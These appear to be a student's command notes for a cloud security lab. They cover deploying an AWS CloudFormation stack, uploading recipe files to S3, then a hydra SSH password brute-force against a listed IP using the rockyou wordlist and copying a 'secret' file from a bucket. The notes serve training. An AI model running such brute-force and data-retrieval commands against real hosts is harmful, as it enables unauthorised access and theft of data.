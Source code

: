 # Exercise 1
## Task 3

`aws cloudformation create-stack --region us-east-1 --stack-name c3-app --template-body file://starter/c3-app.yml --parameters ParameterKey=KeyPair,ParameterValue=khoadd6-udacity-keypair --capabilities CAPABILITY_IAM`

`aws s3 cp free_recipe.txt s3://cand-c3-free-recipes-258766122316 --region us-east-1`

`aws s3 cp secret_recipe.txt s3://cand-c3-secret-recipes-258766122316 --region us-east-1`

`http://c1-web-service-alb-139428374.us-east-1.elb.amazonaws.com/free_recipe`

# Exercise 3
## Task 1
`ssh -i khoadd6-udacity-keypair.pem ubuntu@35.168.17.189`

`hydra -l ubuntu -P rockyou.txt ssh://44.217.120.48`

## Task 2
`aws s3 ls  s3://cand-c3-secret-recipes-258766122316 --region us-east-1`

`aws s3 cp s3://cand-c3-secret-recipes-258766122316/secret_recipe.txt  .  --region us-east-1`

`cat secret_recipe.txt`
